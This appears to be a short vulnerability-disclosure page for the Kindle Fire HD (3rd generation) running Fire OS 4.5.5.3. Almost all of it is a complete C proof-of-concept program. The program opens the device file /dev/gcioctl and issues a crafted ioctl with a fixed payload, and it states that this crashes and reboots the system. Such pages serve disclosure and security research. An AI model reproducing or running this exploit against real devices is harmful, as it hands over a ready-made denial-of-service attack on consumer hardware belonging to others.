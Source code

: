 <languages  /> <translate>

漏洞影響
--------

</translate>

    Fire OS 4.5.5.3

POC
---

    /*
     * This is poc of Kindle Fire HD 3rd
     * A bug in the ioctl interface of device file /dev/gcioctl causes the system crash via IOCTL 3222560159.
     * This Poc should run with permission to do ioctl on /dev/gcioctl.
     *
     */
    #include <stdio.h>
    #include <fcntl.h>
    #include <errno.h>
    #include <sys/ioctl.h>

    const static char *driver = "/dev/gcioctl";
    static command = 3222560159;

    int main(int argc, char **argv, char **env) {
            unsigned int payload[] = { 0x244085aa, 0x1a03e6ef, 0x000003f4, 0x00000000 };

            int fd = 0;

            fd = open(driver, O_RDONLY);
            if (fd < 0) {
                printf("Failed to open %s, with errno %d\n", driver, errno);
                system("echo 1 > /data/local/tmp/log");
                return -1;
            }

            printf("Try open %s with command 0x%x.\n", driver, command);
            printf("System will crash and reboot.\n");
            if(ioctl(fd, command, &payload) < 0) {
                printf("Allocation of structs failed, %d\n", errno);
                system("echo 2 > /data/local/tmp/log");
                return -1;
            }
            close(fd);
            return 0;
    }